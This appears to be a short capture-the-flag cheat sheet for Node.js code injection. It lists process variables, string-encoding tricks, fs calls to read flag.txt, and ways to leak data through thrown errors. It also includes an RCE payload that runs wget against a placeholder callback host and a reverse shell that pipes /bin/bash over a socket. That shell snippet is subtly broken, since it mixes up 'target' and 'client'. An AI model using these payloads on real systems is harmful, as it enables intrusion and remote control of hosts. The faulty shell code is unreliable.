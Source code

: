 
# Strings

```js
1 + '1' = '11'
```

# Tools

- `proces`
- `fs`
- `child_process` 
- `ncat`

# Variables

```js
process.title
process.argv0
process.version
process.cwd()
process.pid
process.platform
__filename
```

# Helpers

Encode a string as decimal (each letter split by 000)
```js
"blob".split('').map(char => char.charCodeAt(0)).join(' ');
// "98 108 111 98"
```

Encode a char at a given index as decimal
```js
"blob".split('')[1].charCodeAt()
// 108
"blob".split('')[25].charCodeAt()
// TypeError: "blob".split(...)[25] is undefined
```

List a directory
```js
require('fs').readdirSync('./').toString()
```

Read a file content
```js
require('fs').readFileSync('./flag.txt').toString()
```

Define a function and call it
```js
(()=>{return 3*3})()           // anonymous function
function x(){return 3*3;} x(); // named function
```

Throw an error
```js
throw "this is a bad error message"
throw `${JSON.stringify(require('fs').readdirSync("."))}`
```

RCE
```js
require('child_process').exec('wget http://XXXXXX.hook.com')
require('child_process').execSync('wget http://XXXXXX.hook.com')
```

Reverse shell
```js
var net = require("net");
var target = new net.Socket();
client.connect(1234, "127.0.0.1", function()
	{
		target.pipe(require("child_process").exec("/bin/bash").stdin);
		require("child_process").exec("/bin/bash").stdout.pipe(target);
		require("child_process").exec("/bin/bash").stderr.pipe(target);
	}
);
```
# Resources

- https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44